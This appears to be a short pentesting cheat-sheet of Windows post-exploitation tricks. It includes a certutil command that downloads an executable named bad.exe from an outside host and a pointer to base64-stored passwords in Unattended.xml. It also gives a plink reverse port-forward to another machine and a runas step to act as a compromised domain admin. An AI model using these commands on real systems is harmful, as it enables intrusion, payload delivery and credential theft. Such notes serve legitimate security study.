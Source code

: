 # Miscellaneous
```text-plain
certutil.exe -urlcache -f http://10.0.0.5/40564.exe bad.exe
```

"Unattended Setup is the method by which original equipment manufacturers (OEMs), corporations, and other users install Windows NT in unattended mode." Read more about it [here](https://support.microsoft.com/en-us/topic/77504e1d-2b75-5be1-3eef-cec3617cc461).

It is also where users passwords are stored in base64. Navigate to C:\\Windows\\Panther\\Unattend\\Unattended.xml.

To list the permissions of all files in the current directory, we can use:

`cacls *`

For port forwarding with plink use the following with ssh running and ufw disabled:

```text-plain
echo y|&./plink.exe -ssh -l username -pw password -R 2805:127.0.0.1:2805 10.17.17.11
```

the `runas` command, which we can use to authenticate as another user in the command prompt. We can use the following command in cmd to authenticate as the now compromised DA user:

`runas /user:john cmd.exe`